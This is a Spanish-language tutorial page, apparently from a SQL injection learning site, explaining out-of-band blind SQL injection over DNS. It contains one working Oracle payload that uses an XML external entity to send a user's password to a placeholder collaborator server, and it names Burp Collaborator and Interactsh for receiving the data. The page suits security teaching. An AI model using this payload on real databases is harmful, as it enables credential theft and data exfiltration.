 ```yaml
---
layout: default
title: 4.4 Fuera de banda
permalink: /injection_types/blind/oob_type
nav_order: 4
parent: 4. Inyecciones ciegas
has_children: true
---
```


# Inyecciones ciegas con interacción fuera de banda

Para realizar una inyección SQL ciega fuera de banda, el atacante debe utilizar una técnica que permita a la aplicación enviar la información  consultada a través de un canal diferente al utilizado para la interacción con la base de datos. Por ejemplo, el atacante puede utilizar comandos SQL que envíen información a través de una conexión de red, una solicitud DNS o una solicitud HTTP. Una vez que el atacante ha enviado la inyección, puede esperar a recibir la respuesta de la base de datos en el canal alternativo utilizado.

Continuando con nuestro ejemplo anterior, apliquemos una inyección SQL fuera de banda, utilizando el protocolo DNS. Este es usado comúnmente ya que muchas redes permiten salida libre de consultas DNS, debido a su importancia en el funcionamiento de los sistemas de producción. Para construir la consulta nos apoyaremos en la [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/blind).

Si detectamos un parametro vulnerable en la consulta hacia la aplicación, podemos jugar con la consulta para que, la respuesta a la consulta inyectada pueda ser recibida a traves de nuestro servidor remoto colaborador en forma de una consulta DNS, estos comandos son especificos para cada tipo de base de datos, nuestro ejemplo se  centra en una base de datos **Oracle**

`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT+password+FROM+users+WHERE+username='USER')||'.SERVIDOR-REMOTO-COLABORADOR/"> %remote;]>'),'/l') FROM dual--`

Para estas tareas podemos utilizar  herramientas como [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) este nos permitira  traves de su cliente local hacer uso de un servicio DNS publicado a internet y obtener un subdominio que podremos utilizar para la inyeccion fuera de banda, Este se encuentra disponible junto con la licencia de Burpsuite Professional, una alternativa gratuita puede ser [Interactsh](https://github.com/projectdiscovery/interactsh).

  